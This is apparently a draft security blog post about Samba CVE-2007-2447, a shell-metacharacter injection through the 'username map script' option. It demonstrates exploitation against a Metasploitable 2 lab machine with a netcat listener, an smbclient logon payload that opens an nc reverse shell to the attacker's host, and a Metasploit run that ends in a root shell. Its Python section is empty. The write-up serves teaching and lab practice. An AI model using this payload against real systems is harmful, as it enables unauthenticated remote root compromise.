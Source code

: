 ```yaml
---
layout: post
title:  "Samba CVE2007-2447"
categories: [Vulnerabilities]
tags: [command execution, exploit, python]
draft: true
---
```


### Introduction

On May 7th 2007, a vulnerability found within Samba was reported via email to their security@samba.com mail alias. This bug was initially reported against the anonymous calls to the `SamrChangePassword()` [MS-RPC](https://en.wikipedia.org/wiki/Microsoft_RPC) function in combination with the "username map script" `smb.conf` option (which is not enabled by default). The bug was disclosed publicly on May 14th.

However, after investigation from developers at Samba they found the bug to be much broader noting that it also impacted remote printer & file share management. The root cause is due to passing unfiltered user input provided by MS-RPC calls to `/bin/sh` when invoking external scripts defined in `smb.conf`. Interestingly the vulnerability found with the "username map script" can be exploited without authenticatiton unlike the bug found in remote printer & file share management scripts, those require an authenticated session.

### So, how does it work?

In general there isn't much to discuss regarding this bug, it's fairly simple - by sending [shell metacharacters](http://faculty.salina.k-state.edu/tim/unix_sg/shell/metachar.html) into the username we trigger the bug which in turn allows us to send arbitrary commands to the device through the username field when attempting an SMB connection. As we mentioned earlier, no authentication is required to exploit this due to the fact that the option is used to map usernames prior to authentication and thus we can exploit this whilst being unauthenticated.

### Code Review

Sadly I was unable to find the source code that was affected for this CVE thus I cannot do a review on it, I'm not sure if anyone has it but if you do I'd greatly appreciate it! You can contact me on Twitter which is linked at the bottom of the page.

### Exploit

We can exploit this vulnerability using the [Metasploit module](https://www.exploit-db.com/exploits/16320/) however, this is another exploit that is easy to execute manually. As per usual we will exploit the vulnerability with Metasploit, manually and write our own script for the exploit.

It's worth noting in the below examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Exploiting this one manually has a few steps but it's not too tricky, it's not exactly efficient but it does the trick! Firstly we need to setup a listening on netcat, open a termninal and use `netcat -nvlp` the actual listener is defined with `l` so you might be wondering what all of this means? Well, `-n` tells Netcat not to resolve names, `-v` specifies to give us a verbose output when printing, `-l` specifies to create the listener as we mentioned and `-p` will create that listener on *any* local port.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
```

Once we have the listener setup we are now going to open a new terminal and check the victims shares, we can do this with `smbclient -L //192.168.139.133` where `-L` will get a list of shares available on a host. We're using Metasploitable 2 as mentioned.

```
root@LinxzSecKali:~# smbclient -L //192.168.139.133
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE
  
```
We're going to focus on the `tmp` folder & attempt to connect to the victim using `smbclient  //192.168.139.133/tmp` now you should receive the following back from the target.

```
root@LinxzSecKali:~# smbclient  //192.168.139.133/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
```

Next, we need to setup the reverse shell, you should see a prompt that looks like this after the previous command `smb: \>` this is good news, next we need to send `logon` to the target with logon ```logon/=`nc 192.168.139.135 4444 -e /bin/bash``` this time make sure you use your machines ip & not the targets! If we switch back to our terminal we created the netcat listener in you should see this.

```
root@LinxzSecKali:~# netcat -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.139.135] from (UNKNOWN) [192.168.139.133] 36513
```
Now you can execute commands and see that we've owned the machine! As I mentioned, there's a few steps for us to carry out but it's all relatively simple stuff. If in doubt just use `--help` :p


#### Metasploit Exploitation

Load Metasploit using `msfconsole` then run `use exploit/multi/samba/usermap_script` this will tell Metasploit to use that module, next you will need to set the `rhost` with the IP address of your target, you don't need to specify another payload for the bind shell as the Metasploit module will do this for you on your machines IP & port 4444. That's it! You now have a shell with whatever privliges the account Samba is running on has.

```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(multi/samba/usermap_script) > set RHOST 192.168.139.133
RHOST => 192.168.139.133
msf exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 192.168.139.135:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo iogIbtev3qMtahR5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "iogIbtev3qMtahR5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.139.135:4444 -> 192.168.139.133:44662) at 2018-11-17 15:35:19 +0000

id;
uid=0(root) gid=0(root)
whoami;
root
```


### Python Exploitation



### References

[Samba Security CVE2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)

[Rapid 7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

[CVE Details 2007-2447](https://www.cvedetails.com/cve/cve-2007-2447)


